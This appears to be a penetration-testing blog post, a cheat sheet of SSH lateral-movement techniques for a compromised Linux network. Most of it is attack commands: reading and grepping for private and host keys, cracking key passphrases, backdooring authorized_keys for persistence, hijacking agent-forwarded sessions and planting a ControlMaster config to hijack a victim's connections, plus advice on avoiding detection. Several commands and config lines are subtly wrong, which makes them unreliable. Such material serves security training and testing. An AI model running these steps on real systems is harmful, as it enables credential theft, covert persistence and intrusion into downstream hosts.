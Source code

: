 ```yaml
---
layout: blog_item
title: "SSH Lateral Movement Cheat Sheet"
date:   2024-06-03 15:29:10
author: Dhruv Ambaliya
description: 'SSH lateral movement cheat sheet, a collection of lateral movement techniques to move deeper through the network.'
categories: [cheat-sheet]
tags:

- 'Linux Lateral Movement'
---
```


* list element with functor item
{:toc}

## What is a Lateral Movement 

A lateral movement typically occurs after a host has been compromised via a reverse shell, and foothold in the network is obtained. Fully compromising the target machine by performing Linux privilege escalation or Windows privilege escalation could be advantageous due to the increased access to files or operating system functionality leveraged by a root level account.

This article focuses specifically on SSH lateral movement techniques on Linux.

<!--more-->

## SSH Lateral Movement 

SSH private keys are typically an easy way to progress through the network, and are often found with poor permissions or duplicated in home directories. This article does not cover SSH pivoting in depth, we have a separate resource for [SSH pivoting](https://hacksofdhruv.me/blog/ssh-meterpreter-pivoting-techniques/).  

<div class="note info">
  <h5>Enumerate Non UNIX Based Hosts for Private Keys</h5>
  <p>SSH is not specific to UNIX based operating systems, consider enumerating Windows target for SSH private keys.</p>
</div>

### Manually Look for SSH Keys

Check home directories and obvious locations for private key files: 

{% highlight bash %}

/home/*
cat /root/.ssh/authorized\_keys 
cat /root/.ssh/identity.pub 
cat /root/.ssh/identity 
cat /root/.ssh/id\_rsa.pub 
cat /root/.ssh/id\_rsa 
cat /root/.ssh/id\_dsa.pub 
cat /root/.ssh/id\_dsa 
cat /etc/ssh/ssh\_config 
cat /etc/ssh/sshd\_config 
cat /etc/ssh/ssh\_host\_dsa\_key.pub 
cat /etc/ssh/ssh\_host\_dsa\_key 
cat /etc/ssh/ssh\_host\_rsa\_key.pub 
cat /etc/ssh/ssh\_host\_rsa\_key 
cat /etc/ssh/ssh\_host\_key.pub 
cat /etc/ssh/ssh\_host\_key
cat ~/.ssh/authorized\_keys 
cat ~/.ssh/identity.pub 
cat ~/.ssh/identity 
cat ~/.ssh/id\_rsa.pub 
cat ~/.ssh/id\_rsa 
cat ~/.ssh/id\_dsa.pub 
cat ~/.ssh/id\_dsa 

{% endhighlight %}

### Search For Files Containing SSH Keys

{% highlight bash %} 
grep -ir "-----BEGIN RSA PRIVATE KEY-----" /home/*
grep -ir "BEGIN DSA PRIVATE KEY" /home/*

grep -ir "BEGIN RSA PRIVATE KEY" /*
grep -ir "BEGIN DSA PRIVATE KEY" /*

{% endhighlight %}


### Identify The Host for the Key

<div class="note tip">
  <h5>Hashed known_hosts</h5>
  <p>Modern Linux systems may hash the known_hosts file entries to help prevent against enumeration.</p>
</div>

If you find a key you then need to identify what server the key is for. In an attempt to idenitfy what host the key is for the following locations should be checked: 

{% highlight bash %}
/etc/hosts 
~/.known_hosts
~/.bash_history 
~/.ssh/config 
{% endhighlight %}

### Cracking SSH Passphrase Keys

If the discovered SSH key is encrypted with a passphrase this can be cracked locally (much faster), below are several methods. If you have access to a GPU hashcat should be leveraged to improve the cracking time. 

#### Cracking SSH Passphrase with John the Ripper 

John the Ripper has a function to convert he key to a hash called john2hash.py and comes pre installed on Kali.

1. Convert the hash: python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash-john 
2. Use a comprehensive wordlist: john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash-john 
3. Wait and hope 

<div class="note warning">
  <h5>Help Avoid Detection</h5>
  <p>Avoid directly connecting from a unknown host to the target SSH server, use an already known host to help prevent detection alerts being issued. </p>
</div>

### SSH Passphrase Backdoor

While you have access to the compromised host, it is typically a good idea to backdoor the SSH authorized_keys file which will allow for passwordless login at a point in the future. This should provide an easier and more reliable connection than exploiting and accessing via a reverse shell; and potentially reduce the risk of detection. 

Adding the key is simply a case of paste a SSH public key, generated on your attacking machine and pasting it into the ~/ssh/authorized_keys file on the compromised machine. 

1. run ssh-keygen -t rsa -b 4096 
2. cat id_rsa.pub and copy the file contents 
3. echo "SSH key data" >> ~/.ssh/authorized_keys 
4. Test you can connect using the private key without being prompted for a password 

## SSH Agent Forwarding Hijacking

Starting point: You have SSH already backdoored the compromised host by adding your public key to the ~/.authorized_keys file.  

### How SSH Agent Works

SSH agent works by allowing the Intermediary machine to pass-through (forward) your SSH key from your client to the next downstream server, allowing the machine in the middle (potentially a bastion host) to use your key without having physical access to your key as they are not stored on the intermediate host but simply forwarded on to the downstream target server. 

- Access the machine where the existing victim user session is established
- Root level access to the machine where the victim session is established
- A current victim SSH  connection with agent forwarding enabled 

Your Machine => Intermediary Host (forwards your key) => Downstream Machine 

#### The Risk

The primary risk of using SSH Agent Forwarding is if the intermediatory machine is compromised, and the attacker has significant permissions they could, potentially use the established session socket to gain access to downstream servers. 

### How To Hijack SSH Agent Forwarding

Attacking Machine => Compromised Intermediary Host (with SSH Key) => Downsteam Machine (final destination) 

SSH agent forwarding allows a user to connect to other machines without entering passwords. This functionality can be exploited to access any host the compromised users SSH key has access to (without having direct access to the keys), while there is an active session. 

A potentially easier way to think of SSH agent forwarding, is to think of it as assigning the SSH key to the active SSH session, while the session is in place it is possible to access the SSH key and connect to other machines that the SSH key has access.     

In order to exploit SSH agent forwarding an active session must be open between the user client (that you wish to hijack) and the compromised intermediary host. You will also require access to the host where the user is connected with superuser privileges (such as ```su - username```, or ```sudo```) to access the account running the active SSH session you wish to hijack.

<div class="note tip">
  <h5>If -A SSH Connection Fails</h5>
  <p>If -A fails to connect, perform the following: ```echo "ForwardingAgent yes" >> ~/.ssh/config``` to enable agent forwarding. </p>
</div>

#### Client Instructions 

Run the following on your local client machine: 

You may need to create a new key, if so run ```ssh-add```. 

1. Open an SSH connection using agent forwarding to the compromised host  ```ssh -A user@compromsied-host``` 
2. Verify agent forwarding is working by using: ```ssh-add -l```
3. Obtain root: ```sudo -s```
4. Gain access to the account you wish to access:  ``` su - victim ```
5. Access any SSH connection the private key of the victim has access 

### SSH Hijacking with ControlMaster 

OpenSSH has a function called **ControlMaster** that enables the sharing of multiple sessions over a single network connection. Allowing you to connect to the server once and have all other subsequent SSH sessions use the initial connection. 

In order to exploit SSH ControlMaster you first need shell level access to the target; you will then need sufficient privileges to modify the config of a user to enable the  ControlMaster functionality.

1. Gain shell level access to the target machine 
2. Access the victim users home directory and create / modify the file ``` ~/.ssh/config ``` 
3. Add the following configuration: 

{% highlight bash %}
Host *

ControlMaster auto
~/.ssh/master-socket/%r@%h:%p
ControlPersist yes
{% endhighlight %}

4. ensure the master-socket directory exists if it does not, create it  ```mkdir ~/.ssh/master-socket/ ``` 
5. Ensure the correct permissions are in place for the config file  ```chmod 600 ~/.ssh/config ```
6. Wait for the victim to login and establish a connection to another server 
7. View the directory created at step 4 to observe the socket file:  ```ls -lat ~/.ssh/master-socket ```
8. To hijack the existing connection ssh to user@hostname / IP listed in step 7 


If you know of more techniques let me know on LinkedIn 

Enjoy. 
